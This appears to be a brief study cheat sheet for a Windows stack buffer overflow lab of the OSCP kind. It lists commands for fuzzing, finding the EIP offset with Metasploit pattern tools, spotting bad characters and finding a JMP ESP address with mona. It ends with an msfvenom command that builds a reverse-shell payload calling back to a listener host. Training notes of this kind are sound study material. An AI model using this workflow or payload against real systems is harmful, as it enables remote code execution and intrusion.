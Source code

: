 1. ( Set current working directory)
```
!mona config -set workingfolder c:\mona\%p
```

2. ( Fuzz with fuzz.py to find amount of bytes)

4. ( Generate cyclic payload and paste it in payload add 400 bytes to it)
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

5. ( put EIP address into q to find offset)
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 76413176

!mona findmsp -distance 600
```

6. ( identify bad character and set retn = "BBBB")
```
python3 temp.py
```

7. ( mona command to find bad character)
```
!mona bytearray -b "\x00"
!mona compare -f C:\mona\oscp\bytearray.bin -a esp
```

8. ( find a jump address and put in the bad bytes in command)
```
!mona jmp -r esp -cpb "\x00"
```

9. ( copy jump address and make sure to put it in little endian)
retn = [jump address]

10. ( generate actual shell payload and include bad bytes)
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.18.145 LPORT=53 EXITFUNC=thread -f c -b "\x00\x23\x3c\x83\xba"
```

11. ( set padding) 
ipadding = "\x90" * 16